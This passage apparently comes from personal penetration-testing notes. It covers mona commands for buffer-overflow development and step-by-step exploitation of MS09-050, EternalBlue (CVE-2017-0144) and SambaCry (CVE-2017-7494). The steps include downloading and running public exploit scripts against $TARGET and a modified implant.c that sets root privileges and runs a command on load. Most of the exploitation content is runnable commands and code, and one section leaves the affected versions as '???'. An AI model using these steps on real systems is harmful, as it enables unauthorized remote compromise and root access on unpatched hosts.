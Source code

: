 Always re-copy the address. It will change as you remove bad characters from your BOF. 
```bash
!mona compare -f C:\mona\bytearray.bin -a <address>
```

### Find a JMP Instruction
```bash
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```


# MS09_050: SMBv2 Command Value Vulnerability
## CVE-2009-3103
This vulnerability impacts Windows Server 2008 SP1 32-bit as well as Windows Vista SP1/SP2 and Windows 7. 
```bash
nmap $TARGET -p445 --script smb-vuln-cve2009-3103
wget https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py
```

# EternalBlue
## CVE-2017-0144
This vulnerability impacts ???. Exploiting it requires access to a Named Pipe (NOTE: Windows Vista and newer does not allow anonymous access to Named Pipes). 
```bash
git clone https://github.com/worawit/MS17-010
cd MS17-010
pip install impacket # mysmb.py ships with this exploit. offsec also hosts it on their GitHub
python checker.py $TARGET # check if target is vulnerable and find an accessible Named Pipe
python zzz_exploit.py $TARGET $NAMED_PIPE
```

# SambaCry
## CVE-2017-7494
Exploiting this vulnerability depends on your ability to write to a share. Download Proof-of-Concept code from joxeankoret and modify as desired. 
```bash
mkdir exploits
cd exploits
git clone https://github.com/joxeankoret/CVE-2017-7494.git
cd CVE-2017-7494
mv implant.c implant.bak
vim implant.c
```

An example of a modified implant.c file. This source file gets compiled by the provided Python script. 
```c
#include <stdio.h>
#include <stdlib.h>

static void smash() __attribute__((constructor));

void smash() {
setresuid(0,0,0);
system("ping -c2 $LHOST");
}
```
